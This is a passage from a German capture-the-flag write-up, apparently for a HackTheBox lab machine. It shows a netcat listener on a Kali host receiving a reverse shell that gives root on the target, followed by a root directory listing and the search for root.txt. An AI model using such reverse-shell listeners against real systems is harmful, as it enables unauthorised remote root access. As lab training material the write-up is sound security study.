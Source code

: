 Parallel auf meinem Kali Terminal:

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 9001

listening on [any] 9001 ...
connect to [10.10.14.199] from (UNKNOWN) [10.10.11.46] 59444
bash: cannot set terminal process group (143669): Inappropriate ioctl for device
bash: no job control in this shell
root@heal:/# whoami
whoami
root
```

shell popt, root zugriff bestätigt

#### Root Flag lesen

als erstes die directories/files listen:

```
root@heal:/# ls -la  
ls -la
total 72
drwxr-xr-x  19 root root  4096 Dec  8 13:57 .
drwxr-xr-x  19 root root  4096 Dec  8 13:57 ..
lrwxrwxrwx   1 root root     7 Feb 17  2023 bin -> usr/bin
drwxr-xr-x   4 root root  4096 Dec  8 12:59 boot
dr-xr-xr-x   2 root root  4096 Dec  8 13:57 cdrom
drwxr-xr-x  20 root root  4020 Apr 18 10:01 dev
drwxr-xr-x 117 root root  4096 Jan  7 15:01 etc
drwxr-xr-x   4 root root  4096 Dec  9 12:53 home
lrwxrwxrwx   1 root root     7 Feb 17  2023 lib -> usr/lib
lrwxrwxrwx   1 root root     9 Feb 17  2023 lib32 -> usr/lib32
lrwxrwxrwx   1 root root     9 Feb 17  2023 lib64 -> usr/lib64
lrwxrwxrwx   1 root root    10 Feb 17  2023 libx32 -> usr/libx32
drwx------   2 root root 16384 Sep  4  2024 lost+found
drwxr-xr-x   2 root root  4096 Feb 17  2023 media
drwxr-xr-x   2 root root  4096 Dec  8 13:57 mnt
drwxr-xr-x   2 root root  4096 Dec  8 13:57 opt
dr-xr-xr-x 327 root root     0 Apr 18 10:01 proc
drwx------   7 root root  4096 Apr 18 10:09 root
drwxr-xr-x  31 root root   900 Apr 20 18:57 run
lrwxrwxrwx   1 root root     8 Feb 17  2023 sbin -> usr/sbin
drwxr-xr-x   2 root root  4096 Dec  8 13:57 srv
dr-xr-xr-x  13 root root     0 Apr 18 10:01 sys
drwxrwxrwt  14 root root  4096 Apr 20 18:48 tmp
drwxr-xr-x  14 root root  4096 Dec  8 13:57 usr
drwxr-xr-x  13 root root  4096 Dec  8 13:57 var
```

Beim dutchstöbern haben wir folgendes file gefunden: `root.txt`.

Jetzt mussten wir es nur noch lesen:
